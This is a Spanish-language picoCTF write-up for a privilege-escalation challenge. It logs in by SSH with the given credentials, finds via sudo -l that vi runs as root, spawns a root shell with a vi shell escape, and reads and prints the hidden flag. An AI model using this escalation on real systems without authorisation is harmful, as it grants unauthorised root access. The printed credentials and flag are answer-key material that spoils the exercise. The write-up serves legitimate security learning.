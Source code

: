 #### Description

Can you read files in the root file?
Additional details will be available after launching your challenge instance.

### **Solución**

1. **Conectarse al servidor mediante SSH**  
    Ejecutamos el siguiente comando para conectarnos al servidor con las credenciales proporcionadas:
    `ssh -p 63199 picoplayer@saturn.picoctf.net`
    
    Ingresamos la contraseña:
    `33qE7mB5BF`
    
2. **Explorar el sistema de archivos**
    
    - Listamos los archivos y directorios en la raíz (`/`):
        `ls -l /`
        
    - Observamos que el directorio `/challenge` está bloqueado (`d---------`), por lo que no podemos acceder a él.
    - Intentamos acceder a `/root`, pero nos encontramos con un **"Permission denied"**.
3. **Verificar permisos `sudo`**
    
    - Ejecutamos:
        `sudo -l`
        
    - Descubrimos que el usuario puede ejecutar `vi` como root:
        `User picoplayer may run the following commands on challenge: (ALL) /usr/bin/vi`
        
4. **Escalar privilegios con `vi`**
    
    - Abrimos `vi` con permisos de superusuario:
        `sudo vi -c ':!/bin/sh' /dev/null`
        
    - Esto nos da acceso a una **shell como root**.
5. **Acceder al directorio `/root` y leer la bandera**
    
    - Listamos los archivos dentro de `/root`:
        `ls -la /root`
        
    - Encontramos `.flag.txt`.
    - Lo leemos con:
        `cat /root/.flag.txt`
        
**Respuesta en el formato del concurso:**
`picoCTF{uS1ng_v1m_3dit0r_3dd6dcf4}`

**Referencias**
- Escalada de privilegios mediante editores de texto (`vi` y `vim`).
